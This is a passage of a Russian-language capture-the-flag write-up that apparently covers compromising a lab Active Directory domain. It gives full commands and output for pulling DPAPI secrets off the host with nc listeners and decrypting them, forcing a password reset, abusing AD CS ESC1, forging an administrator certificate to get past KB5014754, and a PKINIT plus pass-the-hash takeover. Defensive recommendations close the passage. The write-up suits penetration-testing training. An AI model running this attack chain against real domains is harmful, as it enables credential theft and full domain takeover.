

Результат:

- **Credential blob:** `57FFB67D684C67F09E7153B9C7CC3940`
- **Master key:** `f53fcaba-f057-48e8-8f92-0180d274bf0f`
- **SID:** `S-1-5-21-4220238332-57023728-1129110646-1602`

### Выгрузка и расшифровка DPAPI

Терминал 1 (для `credential_blob`):

```bash
nc -nlvp 6001 > credential_blob
```


Терминал 2 (для `masterkey`):

```bash
nc -nlvp 6002 > masterkey
```



В шелле `noah.b` выгружаем файлы на атакующую машину, например:




Расшифровка master key:

```bash
impacket-dpapi masterkey -file masterkey \
  -sid S-1-5-21-4220238332-57023728-1129110646-1602 \
  -password 'RiverDragon#Storm25'
```



Получаем:

```
0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```

Расшифровка credential blob:

```bash
impacket-dpapi credential -file credential_blob \
  -key 0x7120d9adb3b8ccd8901bf9e2a29afabcbbcbdb5a13a24a1817bda49097c7ff3c8e5d71f34ae43850a136dc64dbd37061d4f9c34bdbdca21aa8af57d26baad0d8
```



Расшифровка DPAPI прошла успешно.

**Результат:** `alex.o` / `SunsetMountainPeak@2025`

---

## Смена пароля jake.h

```bash
pip install bloodyAD --break-system-packages

bloodyAD --host 10.129.119.216 -d danglingtree.htb -u alex.o -p 'SunsetMountainPeak@2025' \
  set password 'jake.h' 'NewPassword123!'
```



Результат: `[+] Password changed successfully!`

```bash
pip install ldap3 impacket --break-system-packages
```

---

## AD CS ESC1 — создание шаблона EmployeeAuthTemplate

### Проверка прав jake.h

```bash
certipy-ad find -u jake.h -p 'NewPassword123!' -dc-ip 10.129.119.216 -stdout
```



Результат: `RemoteAccessVPN` — ESC1 (Enrollee Supplies Subject), `jake.h` имеет Full Control.

### Создание шаблона

```bash
python3 create_template.py \
  -H dc.danglingtree.htb \
  -u 'jake.h@danglingtree.htb' \
  -p 'NewPassword123!' \
  -t EmployeeAuthTemplate
```

Результат: шаблон создан (OID вида `1.3.6.1.4.1.311.21.8.<...>.403` — _TODO: указать полный OID из вывода инструмента_), `Authenticated Users` получили полный контроль.

### Настройка ESC1

```bash
certipy-ad template \
  -u 'jake.h@danglingtree.htb' -p 'NewPassword123!' \
  -dc-ip 10.129.119.216 -dc-host dc.danglingtree.htb \
  -template EmployeeAuthTemplate \
  -write-default-configuration S-1-5-11 \
  -no-save -force
```

****

---

## Обход KB5014754 — cmc-addext

### Установка

```bash
git clone https://github.com/MazX0p/cmc-addext.git
cd cmc-addext
python3 -m venv .venv && . .venv/bin/activate
pip install -r requirements.txt
```

### Генерация сертификата с SID

```bash
python3 cmc_addext.py --auto-signer \
  --ca-host dc.danglingtree.htb --ca-name 'danglingtree-DC-CA' \
  --template 'EmployeeAuthTemplate' \
  --inject-upn administrator@danglingtree.htb \
  --inject-sid 'S-1-5-21-4220238332-57023728-1129110646-500' \
  --dc-ip 10.129.119.216 \
  --dc-user 'jake.h' --dc-pass 'NewPassword123!' \
  --out forged_admin.pfx --pfx-pass addext
```



Результат: `[!!!] VULNERABILITY CONFIRMED` — сертификат с UPN и SID администратора.

### Проверка

```bash
python3 verify_cert_sid.py forged_admin.pfx addext
```



Результат:

```
SAN UPN : administrator@danglingtree.htb
NTDS SID: S-1-5-21-4220238332-57023728-1129110646-500
```

---

## PKINIT — NT-хэш администратора

### Синхронизация времени

```bash
sudo timedatectl set-ntp off
sudo rdate -n 10.129.119.216
date
```

### Аутентификация

```bash
certipy-ad auth -pfx forged_admin.pfx -password addext \
  -dc-ip 10.129.119.216 -domain danglingtree.htb -username administrator
```



Результат:

```
[*] Got TGT
[*] Got hash for 'administrator@danglingtree.htb':
aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925
```

**NT-хэш:** `8cacb3a97e460c65d105ca7cd9913925`

### Root-флаг

```bash
impacket-psexec 'danglingtree.htb/Administrator@dc.danglingtree.htb' -hashes ':8cacb3a97e460c65d105ca7cd9913925'
```

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



---

## Рекомендации

### Windows Admin Center (CVE-2026-26119)

|Рекомендация|Описание|
|---|---|
|Обновить WAC|Установить версию 2511 (2.6.4) или новее.|
|Ограничить доступ к WAC|Использовать MFA, ограничить по IP, не выставлять в интернет.|
|RBAC|Настроить Role-Based Access Control для ограничения действий пользователей.|
|Мониторинг|Логировать все вызовы `/api/services/WinREST/PowerShell/nodes/*/invokeCommand`.|

### SmarterMail (CVE-2026-23760)

|Рекомендация|Описание|
|---|---|
|Обновить SmarterMail|Установить build 9511 или новее.|
|Ограничить доступ к порту 17017|Не выставлять SmarterMail в интернет, использовать VPN или reverse proxy.|
|Мониторинг|Логировать запросы к `/api/v1/auth/force-reset-password`.|
|MFA|Включить двухфакторную аутентификацию для админ-аккаунтов.|

### AD CS (ESC1)

|Рекомендация|Описание|
|---|---|
|Убрать `ENROLLEE_SUPPLIES_SUBJECT`|Не разрешать пользователям указывать SAN в запросах.|
|Ограничить права на шаблоны|Только Domain Admins должны иметь Full Control на шаблоны.|
|Включить StrongCertificateBindingEnforcement|Установить значение 2 (Full Enforcement).|
|Мониторинг|Логировать запросы на сертификаты с нестандартными UPN/SID.|
|Аудит шаблонов|Регулярно проверять шаблоны на ESC1–ESC8.|